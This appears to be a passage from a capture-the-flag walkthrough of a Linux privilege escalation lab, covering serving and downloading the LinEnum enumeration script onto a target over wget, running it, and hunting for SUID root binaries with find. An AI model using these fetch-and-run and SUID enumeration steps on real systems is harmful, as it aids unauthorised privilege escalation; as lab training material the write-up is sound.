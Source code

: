 Start a local `python webserver` so the `LinEnum` script can be downloaded from target.
{% capture code %}{% raw %}python3 -m http.server 8080{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...{% endraw %}{% endcapture %} {% include code.html code=code %}

`SSH` to the target using the provided credentials `user3:password`.
{% capture code %}{% raw %}ssh user3@<target>{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `wget` to download the `Linenum` script.
{% capture code %}{% raw %}wget http://<ip>:8080/LinEnum.sh{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}--2021-04-17 23:57:07--  http://<ip>:8080/LinEnum.sh
Connecting to <ip>:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 553992 (541K) [text/x-sh]
Saving to: \u2018LinEnum.sh\u2019

LinEnum.sh                                 100%[=====================================================================================>] 541.01K  --.-KB/s    in 0.004s

2021-04-17 23:57:07 (141 MB/s) - \u2018LinEnum.sh\u2019 saved [553992/553992]{% endraw %}{% endcapture %} {% include code.html code=code %}

The status of access will be available in `python webserver` console.
{% capture code %}{% raw %}<ip> - - [18/Apr/2021 04:57:06] "GET /LinEnum.sh HTTP/1.1" 200 -{% endraw %}{% endcapture %} {% include code.html code=code %}

Run `LinEnum` script to find useful info.
{% capture code %}{% raw %}./LinEnum.sh{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 5 - Abusing SUID/GUID Files

Login to the target using credentials `user3:password`.

From previous `LinEnum.sh` script output, the file `/home/user3/shell` had `suid` bit set. It can also be checked using the following command.
{% capture code %}{% raw %}find . -perm -u=s -type f -exec ls -l {} \; 2>/dev/null{% endraw %}{% endcapture %} {% include code.html code=code %}

There will be an executable with `suid` permission set to `root` user.
{% capture code %}{% raw %}-rwsr-xr-x 1 root root 8392 Jun  4  2019 ./shell{% endraw %}{% endcapture %} {% include code.html code=code %}

Try executing the binary, `./shell`. An output similar to below will be obtained.
{% capture code %}{% raw %}You Can't Find Me
Welcome to Linux Lite 4.4 user3

Tuesday 20 April 2021, 00:19:34
Memory Usage: 333/1991MB (16.73%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
{% endraw %}{% endcapture %} {% include code.html code=code %}
